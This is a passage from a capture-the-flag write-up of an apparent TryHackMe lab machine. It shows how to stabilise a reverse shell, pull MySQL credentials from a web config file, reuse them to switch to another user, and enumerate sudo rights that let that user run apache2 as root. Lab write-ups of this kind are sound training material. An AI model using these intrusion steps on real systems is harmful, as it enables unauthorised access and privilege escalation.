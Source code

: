 Once I got a reverse shell as `www-data`, the first thing I did was upgrade it to a proper TTY shell for easier navigation and command execution:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```
Check python version:

```bash
which python
```
After stabilizing the shell, I started exploring the system. Inside `/home`, I found two user directories: `ftpuser` and `rick`. However, only the `rick` user seemed to have restricted access, I couldn't list or access everything directly.

Before poking around too much, I checked out the web root at `/var/www/html` and noticed an interesting file: `config.php`. Inside that file, I found credentials for a MySQL database:

```bash
cat config.php
<?php
$servername = "localhost";
$username = "rick";
$password = "-------------------";
$dbname = "hijack";

// Create connection
$mysqli = new mysqli($servername, $username, $password, $dbname);

// Check connection
if ($mysqli->connect_error) {
  die("Connection failed: " . $mysqli->connect_error);
}
?>
```
I figured the credentials might be reused elsewhere, so I tried using them to switch user to rick:

```bash
su rick
```
The credentials worked, and I successfully switched to the rick user. After that, I navigated to /home/rick and found the first flag:

```bash
rick@Hijack:~$ cat user.txt
cat user.txt
THM{fdc8-----------------------}
```
### Privilege Escalation

After gaining access as the user rick, I checked for any commands that the user could execute with elevated privileges by running `sudo -l`.

```bash
Matching Defaults entries for rick on Hijack:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_LIBRARY_PATH

User rick may run the following commands on Hijack:
    (root) /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2

```
This indicates that the user rick can run the Apache HTTP server `apache2` as the root user, with a custom configuration file `-f` and a document root directory `-d`. The key part here is that Apache is being started as root, and we can control its behavior via configuration or modules.
